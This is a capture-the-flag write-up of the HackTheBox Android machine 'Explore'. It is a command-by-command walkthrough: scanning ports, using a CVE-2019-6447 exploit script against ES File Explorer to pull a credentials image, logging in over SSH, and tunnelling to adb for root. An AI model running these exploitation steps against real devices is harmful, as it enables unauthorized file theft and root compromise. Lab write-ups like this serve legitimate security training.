


# Explore - HackTheBox - Writeup
Android, 20 Base Points, Easy

## Machine



### TL;DR;

To solve this machine, we begin by enumerating open services – finding the ports ```2222```,```5555```,```33897```,```42135``` and ```59777```.

***User:*** Found related ports of [ES File Explorer](https://es-file-explorer.en.uptodown.com/android) application with [CVE-2019-6447](https://nvd.nist.gov/vuln/detail/CVE-2019-6447) which allow us to read files from the device, Using that we found an image with SSH credentials.

***Root:*** Found port ```5555``` which is ```adb```, Create SSH tunnel and run ```adb root``` and then ```adb shell``` to get a shell as a root user.



## Explore Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ nmap -p- -v -sV -sC -oA nmap/Explore 10.10.10.247
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-01 22:26 IDT
Nmap scan report for 10.10.10.247
Host is up (0.093s latency).

PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
33897/tcp open     unknown
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.80%I=7%D=7/1%Time=60DE2451%P=x86_64-pc-linux-gnu%r(NUL
SF:L,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port33897-TCP:V=7.80%I=7%D=7/1%Time=60DE2450%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Thu,\x200
SF:1\x20Jul\x202021\x2020:28:05\x20GMT\r\nContent-Length:\x2022\r\nContent
SF:-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r
SF:\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20412\x
SF:20Precondition\x20Failed\r\nDate:\x20Thu,\x2001\x20Jul\x202021\x2020:28
SF::05\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTTP/1\.
SF:0\x20501\x20Not\x20Implemented\r\nDate:\x20Thu,\x2001\x20Jul\x202021\x2
SF:020:28:11\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text/plai
SF:n;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x20
SF:supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20Re
SF:quest\r\nDate:\x20Thu,\x2001\x20Jul\x202021\x2020:28:11\x20GMT\r\nConte
SF:nt-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\
SF:nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version:\
SF:x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDat
SF:e:\x20Thu,\x2001\x20Jul\x202021\x2020:28:26\x20GMT\r\nContent-Length:\x
SF:2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:
SF:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionReq,
SF:DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Thu,\x2001\x20Jul\x2
SF:02021\x2020:28:26\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid\x
SF:20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\?\
SF:0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalSer
SF:verCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Thu,\x2001
SF:\x20Jul\x202021\x2020:28:26\x20GMT\r\nContent-Length:\x2054\r\nContent-
SF:Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\
SF:nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20mstsh
SF:ash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDa
SF:te:\x20Thu,\x2001\x20Jul\x202021\x2020:28:26\x20GMT\r\nContent-Length:\
SF:x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection
SF::\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\0e
SF:\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone

```

We can see the ports ```42135```, ```59777``` which related to [ES File Explorer](https://es-file-explorer.en.uptodown.com/android), ES File Explorer application is a type of File Explorer to Android.

Found [CVE-2019-6447](https://nvd.nist.gov/vuln/detail/CVE-2019-6447) to the application and found also the following [POC](https://www.exploit-db.com/exploits/50070).

By using the function ```listPics``` from a device we can see the following result:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ python3 exp.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)

``` 

Let's try to get the ```/storage/emulated/0/DCIM/creds.jpg``` file:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ python3 exp.py getFile 10.10.10.247 storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
m[+] Done. Saved as `out.dat`.

┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ mv out.dat creds.jpg
```

We can see the following creds ```kristi:Kr1sT!5h@Rp3xPl0r3!```:


We can see also port ````2222```` which is [SSH Server Banana Studio](https://play.google.com/store/apps/details?id=net.xnano.android.sshserver.tv&hl=en_US&gl=US)

Let's connect ssh with the credentials above:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ ssh kristi@10.10.10.247 -p 2222
The authenticity of host '[10.10.10.247]:2222 ([10.10.10.247]:2222)' can't be established.
RSA key fingerprint is SHA256:3mNL574rJyHCOGm1e7Upx4NHXMg/YnJJzq+jXhdQQxI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.247]:2222' (RSA) to the list of known hosts.
Password authentication
Password: 
:/sdcard $ cd /sdcard/                                                         
:/sdcard $ ls
Alarms  DCIM     Movies Notifications Podcasts  backups   user.txt 
Android Download Music  Pictures      Ringtones dianxinos 
:/sdcard $ cat user.txt
f32017174c7c7e8f50c6da52891ae250

```

And we get the user flag ```f32017174c7c7e8f50c6da52891ae250```.

### Root

We can see on ```nmap``` scanning the port ```5555```, this port used by [adb](https://developer.android.com/studio/command-line/adb).

So let's try to connect using adb (we can install it using [https://www.xda-developers.com/install-adb-windows-macos-linux/](https://www.xda-developers.com/install-adb-windows-macos-linux/)):
```console
┌─[evyatar@parrot]─[/hackthebox/Explore/platform-tools]
└──╼ $ /adb connect 10.10.10.247:5555
failed to connect to '10.10.10.247:5555': Connection timed out
```

By running the command above we get a timeout.

But if we are create ssh tunnel as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ ssh -N  -L 1111:127.0.0.1:5555 kristi@10.10.10.247 -p 2222
Password authentication
Password: 
```

Now we can use the connect command again:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore/platform-tools]
└──╼ $ ./adb connect 127.0.0.1:1111
connected to 127.0.0.1:1111
```

Now we can run ```adb root``` and ```adb shell``` to connect as root:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore/platform-tools]
└──╼ $ ./adb root
restarting adbd as root
┌─[evyatar@parrot]─[/hackthebox/Explore/platform-tools]
└──╼ $./adb shell
x86_64:/ # whoami
root
x86_64:/ # cat /data/root.txt
f04fc82b6d49b41c9b08982be59338c5
x86_64:/ # 

```

And we get the root flag ```f04fc82b6d49b41c9b08982be59338c5```.
